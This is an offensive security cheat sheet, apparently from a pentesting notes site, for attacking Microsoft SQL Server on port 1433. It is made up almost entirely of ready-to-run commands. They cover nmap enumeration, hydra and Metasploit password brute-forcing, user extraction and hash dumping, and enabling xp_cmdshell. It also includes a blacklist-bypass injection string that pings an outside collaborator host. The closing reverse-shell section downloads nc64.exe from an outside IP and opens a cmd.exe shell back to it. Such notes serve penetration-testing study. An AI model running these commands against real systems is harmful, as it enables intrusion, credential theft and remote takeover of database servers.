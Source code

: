 ```yaml
---
description: MSSQL - Microsoft SQL service. typically runs on TCP port 1433.
---
```


# MSSQL

## Enumeration

```
nmap [IP]
nmap --script ms-sql-info -p 1433 [IP]
nmap -p 1433 --script ms-sql-ntlm-info --script-args mssql.instance-port=1433 [IP]
```

## Password attack

```
nmap -p 1433 --script ms-sql-brute --script-args userdb=/root/Desktop/wordlist/common_users.txt,passwd=/root/Desktop/wordlist/100-common-passwords.txt [IP]
hydra -L /root/Desktop/user.txt –P /root/Desktop/pass.txt [IP] mssql
hydra -l sa –P /root/Desktop/pass.txt [IP] mssql

##Metasploit:
use auxiliary/scanner/mssql/mssql_login
msf auxiliary(scanner/mssql/mssql_login) > set rhosts [IP]
msf auxiliary(scanner/mssql/mssql_login) > set user_file /root/Desktop/user.txt
msf auxiliary(scanner/mssql/mssql_login) > set pass_file /root/Desktop/pass.txt
msf auxiliary(scanner/mssql/mssql_login) > set stop_on_success true
msf auxiliary(scanner/mssql/mssql_login) > run
```

## Extracting users

```
nmap -p 1433 --script ms-sql-query --script-args mssql.username=admin,mssql.password=Password123,ms-sql-query.query="SELECT * FROM master..syslogins" [IP] -oN output.txt
```

## Dump hashes

```
nmap -p 1433 --script ms-sql-dump-hashes --script-args mssql.username=admin,mssql.password=Password123 [IP]
```

## CMD Shell

```
nmap -p 1433 --script ms-sql-xp-cmdshell --script-args mssql.username=admin,mssql.password=Password123,ms-sql-xp-cmdshell.cmd="ipconfig" [IP]
```

### Enable xp\_cmdshell - manual

```
//this enables xp_cmdshell
sp_configure 'xp_cmdshell', '1'
RECONFIGURE

//Quickly check what the service account is via xp_cmdshell
EXEC master..xp_cmdshell 'whoami'

//Bypass blackisted "EXEC xp_cmdshell"
‘; DECLARE @x AS VARCHAR(100)=’xp_cmdshell’; EXEC @x ‘ping k7s3rpqn8ti91kvy0h44pre35ublza.burpcollaborator.net’ —
```

Connect to MSSQL instance with impacket-mssqlclient

```
impacket-mssqlclient machine_name/user@[IP] -windows-auth
```



## Reverse shell

Download a netcat file to the remote server&#x20;

```
SQL> xp_cmdshell "powershell -c cd C:\Users\sql_svc\Downloads; wget
http://10.10.14.9/nc64.exe -outfile nc64.exe"

SQL> xp_cmdshell "powershell -c cd C:\Users\sql_svc\Downloads; .\nc64.exe -e cmd.exe
10.10.14.9 443"
```
